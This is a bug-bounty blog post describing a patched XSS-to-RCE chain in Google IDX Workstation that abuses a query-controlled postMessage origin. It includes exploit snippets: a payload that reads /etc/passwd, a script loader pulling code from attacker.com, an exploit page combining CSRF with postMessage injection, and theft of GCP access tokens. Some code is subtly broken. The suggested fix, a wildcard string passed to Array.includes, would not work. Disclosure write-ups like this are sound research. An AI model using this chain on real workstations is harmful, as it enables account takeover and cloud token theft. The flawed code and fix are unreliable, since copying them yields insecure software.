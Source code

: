 ```yaml
---
title: "XSS to RCE in Google IDX Workstation: A Technical Deep Dive $22,500 Bounty Earned 💰"
layout: post
tags: [Google, ProjectIDX, FirebaseStudio, XSS, RCE, security, pentesting, red-team, web-security, JavaScript, exploit, hacking, cybersecurity, GCP, bugbounty, XSS to RCE in Google IDX Workstation: A Technical Deep Dive]
image: /assets/images/xssrce.png
category: security
---
```



# XSS to RCE in Google IDX Workstation: A Technical Deep Dive

Hey there, I'm someone who loves digging into security vulnerabilities like this. Cloud-based development environments like Google's Project IDX (now integrated into Firebase Studio) make life easier for developers, but they also come with some intriguing security risks. Discovered in September 2025, this XSS vulnerability escalates to Remote Code Execution (RCE), potentially leaking Google Cloud Platform (GCP) tokens. Found by Aditya Sunny from NullSecurityX, it earned a $22,500 bounty from Google's Vulnerability Reward Program. Let's dive into the technical details together, examining code snippets and how the exploit works. I'll keep it natural, like we're chatting over coffee, but with solid technical depth.

## The Basics of IDX Workstation

First off, a quick rundown on what IDX Workstation is. It's a browser-based cloud IDE built on the open-source version of Visual Studio Code (Code OSS). It runs on subdomains like `*.cloudworkstations.dev` or `*.cloudworkstations.googleusercontent.com`. Features include code editing, terminal access, extensions from the Open VSX Registry, web previews, and even Android emulators. From a security standpoint, iframe and web worker communications are key, relying on things like the postMessage API. If origin validation is weak, things can go south quickly.

## The Root Cause: Weakness in the postMessage Handler

The heart of the vulnerability is in the `webWorkerExtensionHostIframe.html` file. This iframe manages web worker extension hosts and loads on the same origin as the main UI, making same-origin policy (SOP) breaches possible if not secured properly.

Here's the vulnerable code snippet:

```javascript
const parentOrigin = searchParams.get('parentOrigin') || window.origin;
self.onmessage = (event) => {
  if (event.origin !== parentOrigin) return;
  worker.postMessage(event.data, event.ports);
}
```

Let's break this down line by line, as this is where it all starts.

- **const parentOrigin = searchParams.get('parentOrigin') || window.origin;**  
  This is the problematic part. The `parentOrigin` value comes from URL query parameters (e.g., `?parentOrigin=malicious.com`). If missing, it defaults to `window.origin`. Why is this bad? It's user-controllable – an attacker can manipulate the URL to insert their own domain, bypassing restrictions. In a secure design, origins should be hardcoded or whitelisted, not pulled from untrusted sources like query params. This goes against the principle of least privilege.

- **self.onmessage = (event) => {**  
  A simple message listener, catching events from the parent window.

- **if (event.origin !== parentOrigin) return;**  
  It checks if the message's origin matches `parentOrigin`. If not, it drops the message. But since `parentOrigin` is manipulable, this check is useless. An attacker can set it to their exploit domain and slip messages through. A better approach would use a fixed whitelist: `if (event.origin !== 'https://trusted.google.domain')`. It also misses edge cases like sandboxed iframes or null origins.

- **worker.postMessage(event.data, event.ports);**  
  Forwards the message to the worker. This is key because binary data (like ArrayBuffers) gets hex-encoded and passed along. This allows XSS payloads to inject into the worker context. Once injected, the code runs with the workstation's privileges – file system access, terminal commands, you name it.

This flaw reminds me of similar issues in GitLab's Web IDE, where poor iframe isolation turns XSS into RCE.

## The Exploit Chain: Step by Step

To exploit this, you need the victim's subdomain – often leaked via Referer headers or DNS queries. The chain combines XSS, CSRF, and postMessage manipulation. Let's walk through it with code examples.

1. **Subdomain Discovery:**  
   The victim shares a preview link: `9000-[victim-subdomain].cloudworkstations.dev`. The attacker strips the `9000-` prefix to get the base subdomain.

2. **Attacker Setup:**  
   The attacker creates their own workstation and notes the subdomain.

3. **Payload Preparation:**  
   - **script1.js:** The main RCE payload. Example:  
     ```javascript
     const fs = require('fs'); // Assuming Node-like access in the worker
     fs.readFile('/etc/passwd', (err, data) => {
       if (err) throw err;
       console.log(data.toString()); // Exfiltrate to the attacker
     });
     ```  
   - **script2.js:** References script1.js.  
     ```javascript
     const script = document.createElement('script');
     script.src = 'https://attacker.com/script1.js'; // Victim domain variant
     document.body.appendChild(script);
     ```  
   - **xss.ipynb:** A Jupyter notebook referencing script2.js (exploits notebook rendering for injection).

4. **Uploading and Hosting:**  
   Upload xss.ipynb to the attacker's workstation. Host exploit.html (e.g., via ngrok):  
   ```html
   <!DOCTYPE html>
   <html>
   <body>
   <script>
     const victimDomain = '[victim-subdomain].cloudworkstations.dev';
     const attackerDomain = '[attacker-subdomain].cloudworkstations.googleusercontent.com';
     // CSRF to log into attacker's workstation
     fetch(`${attackerDomain}/login`, { method: 'POST', credentials: 'include' });
     // Iframe and postMessage injection
     const iframe = document.createElement('iframe');
     iframe.src = `${victimDomain}/?parentOrigin=${window.origin}`;
     document.body.appendChild(iframe);
     iframe.onload = () => {
       iframe.contentWindow.postMessage({ malicious: 'payload' }, '*');
     };
   </script>
   </body>
   </html>
   ```

5. **Victim Interaction:**  
   The victim clicks the exploit.html link. It triggers CSRF login, loads the iframe, and injects the payload via postMessage.

6. **Achieving RCE:**  
   The injected JS accesses the file system – for example, running `gcloud auth print-access-token` to leak tokens. Data gets exfiltrated to the attacker's server.

This chain shows how a client-side flaw can lead to server-side dominance in cloud IDEs.

## Impacts and Risks

- **RCE:** Full control over the victim's cloud instance – running commands, manipulating files.  
- **Token Leakage:** GCP tokens (with cloud-platform scope) grant access to services like Compute Engine and Storage.  
- **Lateral Movement:** In team settings, compromising one workstation could spread to others.

## Patch and Mitigations

Google patched it by moving the iframe to a separate origin, strengthening cross-origin barriers. At the code level, fixes could look like this:  

```javascript
const ALLOWED_ORIGINS = ['https://*.cloudworkstations.googleusercontent.com'];
if (!ALLOWED_ORIGINS.includes(event.origin)) return;
```

Also, add `sandbox="allow-scripts"` to iframes, apply CSP: `script-src 'self'; frame-ancestors 'none';`. Broader tips: Encrypt DNS, use Referrer-Policy: no-referrer, and monitor subdomains.

## Final Thoughts

Vulnerabilities like this highlight the double-edged sword of web-based IDEs – convenience meets risk when client-side security ties directly to cloud resources. Always prioritize origin validation in APIs like postMessage. Programs like Google's VRP keep researchers motivated to find these. If you're tinkering with similar stuff, stay vigilant – a small parameter can lead to big trouble. Thanks for reading; if you have questions or thoughts, drop them in the comments below!

## Video Demonstration

For a visual walkthrough of the exploit, check out this demo video from the original disclosure:

<a href="https://x.com/i/status/1965327615277027446" target="_blank" rel="noopener">
  <img src="/assets/images/xssidx.png" alt="Tweet video" style="max-width:100%;height:auto;">
</a>




<!-- Share Buttons Start -->
<div class="share-buttons">
  <p>Share this post:</p>
  <a class="share-btn twitter" href="XSS to RCE in Google IDX Workstation: A Technical Deep Dive $22,500 Bounty Earned&url={{ page.url | absolute_url }}" target="_blank">Twitter</a>
  <a class="share-btn facebook" href="https://www.facebook.com/sharer/sharer.php?u={{ page.url | absolute_url }}" target="_blank">Facebook</a>
  <a class="share-btn reddit" href="https://www.reddit.com/submit?url={{ page.url | absolute_url }}&title=XSS to RCE in Google IDX Workstation: A Technical Deep Dive $22,500 Bounty Earned" target="_blank">Reddit</a>
</div>

<style>
.share-buttons {
  margin-top: 30px;
  font-family: sans-serif;
}
.share-buttons p {
  margin-bottom: 8px;
  font-weight: bold;
}
.share-buttons .share-btn {
  display: inline-block;
  margin-right: 8px;
  padding: 8px 14px;
  color: #fff;
  text-decoration: none;
  border-radius: 5px;
  font-size: 14px;
  transition: opacity 0.2s;
}
.share-buttons .share-btn:hover {
  opacity: 0.8;
}
.share-buttons .twitter { background: #1da1f2; }
.share-buttons .facebook { background: #4267B2; }
.share-buttons .reddit { background: #ff4500; }
</style>
<!-- Share Buttons End -->
